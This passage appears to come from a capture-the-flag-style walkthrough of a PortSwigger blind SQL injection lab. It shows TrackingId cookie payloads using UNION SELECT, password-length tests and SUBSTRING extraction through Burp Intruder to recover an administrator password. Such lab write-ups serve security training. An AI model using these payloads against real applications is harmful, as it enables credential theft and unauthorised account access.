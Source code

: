         TrackingId=x'+union+select+'a'+from+users+where+username='administrator'+and+length(password)>1--
        TrackingId=x'+union+select+'a'+from+users+where+username='administrator'+and+length(password)>2--
        TrackingId=x'+union+select+'a'+from+users+where+username='administrator'+and+length(password)>3--
        .
        .
        .

Like that we have to check till the Welcome back messages would not return. In this lab we got upto 19 so the password length is 20.

We will go for payloads in Burp Intruderfor this.

![blind6](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/60cb616d-9141-4ae0-a6b2-604dcc1e3e69)

We will check for password length by running numbers payload.

![blind7](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/126e1742-f5c4-4c49-9bb4-98012b65868f)

As we search for `welcome back` message we will give it same for grep match.

![blind8](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/14ce2369-14bf-4c0e-9786-c128d11ed836)

If we click `start attack` the numbers payload run and it will show the password length.

![blind9](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/9253b495-2383-4911-9606-6c20e12a2480)

Now time for guessing administrator password

![blind10](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/30549ea8-33d3-4dcd-b669-98a333dc5d06)

We will give payload consists of `0-9` and `a-z` list.

![blind11](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/48691187-f898-4b63-b8ca-d7ed0f616df4)

We will get first password letter as payload output 

![blind12](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/0aa18605-5880-45c3-acf4-1c9aabc9c11b)

Then we will change the line of 2nd letter, and so on as:

        (SELECT SUBSTRING(password,1,1) FROM users.....
        (SELECT SUBSTRING(password,2,1) FROM users.....
        (SELECT SUBSTRING(password,3,1) FROM users.....
        (SELECT SUBSTRING(password,4,1) FROM users.....
        .
        .
        .
        .
After running for all 20 length letters. we will get the administrator password

![blind13](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/6131a956-3417-4b06-b120-9c656fc02086)

We will login with those details.

![blind14](https://github.com/tousif13/Port_Swigger_Labs/assets/33444140/42119809-35e0-49c7-840a-7fd5684c4a7e)
